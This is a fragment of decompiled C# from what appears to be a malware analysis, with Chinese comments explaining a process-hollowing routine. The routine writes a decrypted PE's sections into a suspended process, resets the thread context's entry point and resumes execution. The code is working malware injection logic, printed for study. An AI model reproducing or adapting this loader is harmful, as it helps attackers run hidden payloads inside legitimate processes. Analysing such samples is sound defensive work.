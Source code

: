 ```c#
//byte_1是前面解密出来得PE文件
//int_2=0x00000200
            {
                throw new Exception();
            }
            int num7 = num2 + 248;        //标准的 PE 文件中其大小为 248 个字节，十六进制就是 F8 大小，这里是跨过PE头定位到第一个节表处。
            short num8 = BitConverter.ToInt16(byte_1, num2 + 3 + 3);    //在PE头基础上获取0x6的IMAGE_FILE_HEADER.NumberoOfSections 节的数量，值为0x3
            for (int i = 0; i < (int)num8; i++)
            {
                int num9 = BitConverter.ToInt32(byte_1, num7 + 6 + 6);    //定位节表IMAGE_SECTION_HEADER.VirtualAddress字段，RVA地址
                int num10 = BitConverter.ToInt32(byte_1, num7 + 8 + 8);    //定位节表 IMAGE_SECTION_HEADER.SizeOfRawData 字段节在文件中对齐后的尺寸。
                int srcOffset = BitConverter.ToInt32(byte_1, num7 + 20);    //定位节表 IMAGE_SECTION_HEADER.PointerToRawData  字段节区起始数据在文件中的偏移，一层寻址。
                if (num10 != 0)
                {
                    byte[] array2 = new byte[num10];        //array2是文件中节表对齐后大小
                    Buffer.BlockCopy(byte_1, srcOffset, array2, 0, array2.Length);    //从文件格式复制节表大小到array2数组中
                    if (!Class3.WriteProcessMemory(@PROCESS_INFORMATION.@hProcess, num6 + num9, array2, array2.Length, ref num))
//将第一个节表内容给你写入指定进程中的内存区域0x402000，这里相当于PE内存映像了，下次写入就下一个节表大小。
                    {
                        throw new Exception();
                    }
                }
                num7 += 40;            //遍历下一个节表，一个节表大小就是40字节
            }
            byte[] bytes = BitConverter.GetBytes(num6);    //以字节数组的形式返回指定 32 位有符号整数值。
            if (!Class3.WriteProcessMemory(@PROCESS_INFORMATION.@hProcess, num4 + 8, bytes, 4, ref num))
//?在 0x00933008 处写入 0x400000 ?不知道干啥用的
            {
                throw new Exception();
            }
            int num11 = BitConverter.ToInt32(byte_1, num2 + 40);    
//定位 0x24 处IMAGE_OPTIONAL_HEADER32.SizeOfUninitializedData字段，所有包含未初始化的数据的节的总大小。这些数据被定义为未初始化，在文件中不占用空间 ; 但在被加载到内存以后，PE 加载程序应该为这些数据分配适当大小的虚拟地址空间。这里是0x0004C97E
            array[44] = num6 + num11;    //值存在CONTEXT 结构的下标44处。
            if (IntPtr.Size != 4)    //不进循环
            {
                if (!Class3.Wow64SetThreadContext(@PROCESS_INFORMATION.@hProcess, array))    
                {
                    throw new Exception();
                }
            }
            else if (!Class3.SetThreadContext(@PROCESS_INFORMATION.@hProcess, array))
//最后设置指定线程的上下文结构，把array数组填充进去。这是在创建线程后，缕空操作前的上下文，进行完缕空操作，修改了一下后填充进去。
            {
                throw new Exception();
            }
            if (Class3.ResumeThread(@PROCESS_INFORMATION.@hProcess) == -1)
//前面说过CreateProcess是吧新进程的主线程在挂起状态下创建，并且在调用 ResumeThread 函数之前不会运行。这里就恢复线程的执行。
            {
                throw new Exception();
            }
            if (Class3.int_7 == 1)
            {
                Class3.int_12 = Convert.ToInt32(@PROCESS_INFORMATION.@dwProcessId);
                Class3.smethod_2();            //这里是手动启动，虽然进来了，但是又异常退出了，可能因为该缕空的就是当前文件，也许有影响吧。
            }
```